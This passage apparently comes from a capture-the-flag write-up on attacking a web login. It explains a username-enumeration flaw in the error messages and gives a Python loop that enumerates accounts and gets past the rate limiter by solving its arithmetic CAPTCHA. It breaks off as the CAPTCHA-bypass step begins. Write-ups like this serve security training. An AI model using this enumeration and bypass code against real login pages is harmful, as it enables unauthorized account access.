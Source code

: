 Since the application explicitly states if a username exists, we can **loop through usernames** until we find a valid
one.

#### Key Observations:

- If a username is invalid, we get:
  ```text
  The user 'username' does not exist
  ```
- If a username is valid but the password is incorrect, we get:
  ```text
  Invalid password for user 'username'
  ```

Using this logic, we test usernames from `usernames.txt` until we find a valid one.

```python
def find_username():
    global lastresponse_text
    LOG.info("Starting username enumeration...", bold=True)
    
    for username in usernames:
        LOG.info(f"Trying username: {username}", remove_last_line=True)
        data = {"username": username, "password": "password"}

        response = make_request(data)
        if not response:
            continue

        if "Too many bad login attempts!" in response.text:
            data["captcha"] = resolve_captcha(lastresponse_text)
            response = make_request(data)

        if f"The user &#39;{username}&#39; does not exist" not in response.text:
            LOG.info(f"Valid username found: {username}", bold=True, remove_last_line=True)
            return username

    LOG.warning("No valid username found.")
    return None
```

### Step 2: Bypassing the Rate Limiter & CAPTCHA

If too many incorrect attempts are made, the application **triggers a CAPTCHA**:

```
Too many bad login attempts!
```

The CAPTCHA is a simple **math expression**, e.g.:

```
Solve: 23 + 9 = ?
```
